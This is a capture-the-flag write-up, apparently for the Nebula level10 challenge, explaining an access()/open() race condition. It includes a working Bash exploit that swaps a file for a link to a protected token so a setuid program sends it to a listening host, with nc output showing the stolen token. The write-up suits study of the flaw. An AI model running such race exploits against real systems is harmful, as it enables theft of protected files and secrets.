> It is a race condition. You do the access(), then you do the open(). In the small time between the two calls, the file may have changed. Typically, the file is, say, /tmp/foo. Initially, the file is owned by some user (who is the bad guy of the story), and the target is some root-powered application. The application does the access(), sees that the file really belongs to the user, and thus thinks: "that's fine, it's his file, I can process it on his behalf". Then the bad guy quickly replaces the file with a symbolic link to /etc/shadow. The application has already taken the decision to open /tmp/foo, but when it does, it really opens and processes /etc/shadow.
[source](https://security.stackexchange.com/questions/42659/how-is-using-acces-opening-a-security-hole)

Perhaps here we could create a fake `/home/level10/token` to trick `access` into letting us upload the program, then replace it with a link that points to `/home/flag10/token` for upload instead.

### Winning script

I wrote a Bash script that calls the SETUID program `flag10` in the background. The `access` function grants us access to upload our fake `/home/level10/token`. Before the `open` function opens the file for uploading, `rm /home/level10/token && ln /home/flag10/token /home/level10/token &` replaces the fake `/home/level10/token` with the link that points to `/home/flag10/token`. 
```
#!/bin/bash

if [ -f "/home/level10/token" ]
then
	rm -f /home/level10/token
fi

touch /home/level10/token && echo "Fake token" > /home/level10/token

/home/flag10/flag10 /home/level10/token 192.168.1.111 &
rm /home/level10/token && ln /home/flag10/token /home/level10/token &
```

This is the ideal output. The recipient machine successfully receives the token `'615a2ce1-b2b5-4c76-8eed-8aa5c4015c27'`.
```
level10@nebula:~$ ls
test.sh  x
level10@nebula:~$ touch token
level10@nebula:~$ bash test.sh 
level10@nebula:~$ Connecting to 192.168.1.111:18211 .. Connected!
Sending file .. wrote file!
```
```
$ nc -l 18211
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
$
```

That is how we win the challenge.

By the way, I say it is ideal because it should *ideally* happen every time we run the script. However, that is *not* the case. In reality, that does not always happen.
